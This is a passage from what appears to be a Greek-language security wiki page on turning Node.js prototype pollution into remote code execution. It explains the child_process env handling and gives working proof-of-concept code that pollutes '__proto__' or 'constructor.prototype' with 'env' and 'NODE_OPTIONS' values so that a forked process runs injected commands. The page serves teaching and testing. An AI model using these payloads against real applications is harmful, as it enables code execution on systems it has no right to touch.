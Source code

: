 ```javascript
const value = env[key];
if (value !== undefined) {
ArrayPrototypePush(envPairs, `${key}=${value}`); // <-- Pollution
}
}
```
Ελέγξτε αυτόν τον κώδικα, μπορείτε να δείτε ότι είναι δυνατόν να δηλητηριάσετε το `envPairs` απλά με τον προσβάλλοντα το χαρακτηριστικό `.env`.

### Δηλητηρίαση `__proto__`

{% hint style="warning" %}
Σημειώστε ότι λόγω του τρόπου λειτουργίας της συνάρτησης **`normalizeSpawnArguments`** από τη βιβλιοθήκη **`child_process`** του node, όταν καλείται κάτι για να **ορίσει μια νέα μεταβλητή env** για τη διεργασία, απλά χρειάζεται να **δηλητηριάσετε οτιδήποτε**.\
Για παράδειγμα, αν κάνετε `__proto__.avar="valuevar"` η διεργασία θα ξεκινήσει με μια μεταβλητή που ονομάζεται `avar` με τιμή `valuevar`.

Ωστόσο, για να είναι η **μεταβλητή env η πρώτη** πρέπει να **δηλητηριάσετε** το χαρακτηριστικό **`.env`** και (μόνο σε ορισμένες μεθόδους) αυτή η μεταβλητή θα είναι η **πρώτη** (επιτρέποντας την επίθεση).

Γι' αυτό το **`NODE_OPTIONS`** δεν βρίσκεται **μέσα στο `.env`** στην παρακάτω επίθεση.
{% endhint %}

{% code overflow="wrap" %}
```javascript
const { execSync, fork } = require('child_process');

// Manual Pollution
b = {}
b.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/pp2rce').toString())//"}
b.__proto__.NODE_OPTIONS = "--require /proc/self/environ"

// Trigger gadget
var proc = fork('./a_file.js');
// This should create the file /tmp/pp2rec


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce\\\").toString())//"}}}')

clone(USERINPUT);

var proc = fork('a_file.js');
// This should create the file /tmp/pp2rec
```
{% endcode %}

### Δηλητηρίαση του `constructor.prototype`
```javascript
const { execSync, fork } = require('child_process');

// Manual Pollution
b = {}
b.constructor.prototype.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//"}
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ"

proc = fork('a_file.js');
// This should create the file /tmp/pp2rec2

```
